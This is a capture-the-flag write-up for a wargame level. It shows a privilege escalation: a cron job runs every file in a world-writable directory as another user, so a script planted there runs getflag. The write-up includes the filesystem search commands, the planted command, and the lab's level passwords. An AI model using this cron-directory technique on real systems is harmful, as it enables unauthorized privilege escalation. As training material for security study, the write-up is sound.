 # Solve Level05
pass : ne2searoevaevoem4ov4ar8ap


### Description
- ```(find / -user flag05 -type f 2>/dev/null) | grep -v proc``` ==> only file : '/usr/sbin/openarenaserver'
- when we connect we have a message "You have a new mail."
  - on linux mails are in /var/mail/user
  - other way to find the mail ```(find / -type f -iname level* 2>/dev/null) | grep -v rof``` help to find `var/mail/level05`


### diggin on /var/mail/level05
- only this : `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
    - first part is a cron pattern telling "At every 2nd minute run su" ```man cron``` [crontab][fd1] [advices][fd2]
    - the cron calls openarenaserver as flag05

### /usr/sbin/openarenaserver
`-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver`
  - he execute each file in the folder `/opt/openarenaserver` with ```bash -x #x is tracing mode``` then remove the file
  - maybe we can put a file to execute in /opt/openarenaserver (the folder is set 777)


## Solution
```bash
echo "getflag > /tmp/test" > /opt/openarenaserver/test
# wait for cron job execution (2 minutes max)
cat /tmp/test
```

- no flag
- level06 : viuaaale9huek52boumoomioc


## Resolve problem
- be aware about cron job and all rights they can give ==> don't give write and execute to everybody

[fd1]: https://crontab.guru/crontab.5.html
[fd2]: https://serverfault.com/questions/449651/why-is-my-crontab-not-working-and-how-can-i-troubleshoot-it